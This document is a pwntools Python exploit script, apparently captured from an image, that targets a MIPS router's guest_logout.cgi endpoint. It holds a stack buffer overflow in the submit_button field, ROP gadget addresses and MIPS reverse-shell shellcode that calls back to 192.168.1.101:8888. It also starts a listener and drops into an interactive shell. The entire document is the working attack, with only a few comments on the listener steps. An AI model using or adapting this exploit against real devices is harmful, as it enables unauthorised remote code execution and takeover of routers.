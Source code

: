 exp：

```python
from pwn import *
import thread,requests

context(arch='mips',endian='little',os='linux')


libc = 0x2af98000
jmp_a0 = libc + 0x0003D050  # move  $t9,$a0             ; jalr  $a0

jmp_s0 = libc + 0x000257A0  # addiu $a0,$sp,0x38+var_20 ; jalr  $s0 


#LHOST=192.168.1.101 LPORT=8888

buf =  b""
buf += b"\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd"
buf += b"\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01"
buf += b"\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f"
buf += b"\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x22\xb8\x0e\x3c"
buf += b"\x22\xb8\xce\x35\xe4\xff\xae\xaf\x01\x65\x0e\x3c\xc0"
buf += b"\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff"
buf += b"\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01"
buf += b"\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f"
buf += b"\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
buf += b"\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff"
buf += b"\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf"
buf += b"\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += b"\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc"
buf += b"\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01"
buf += b"\x01\x01"


url = "https://192.168.1.1/guest_logout.cgi"
pd1 = "status_guestnet.asp"+'a'*49+p32(jmp_a0)+'b'*(85-49-4)+p32(jmp_s0)+'c'*0x18+buf
pd2 = {"cmac":"12:af:aa:bb:cc:dd","submit_button":pd1,"cip":"192.168.1.100"}

def attack():
    try: 
        requests.packages.urllib3.disable_warnings()
        requests.post(url, data=pd2, verify=False,timeout=1)
    except: 
        pass

io = listen(8888)
#创建一个TCP或UDP套接字以接收数据


thread.start_new_thread(attack,())
#开始一个新的线程，从attack函数开始运行


io.wait_for_connection()
#阻塞直到建立连接


log.success("getshell")
io.interactive()
```
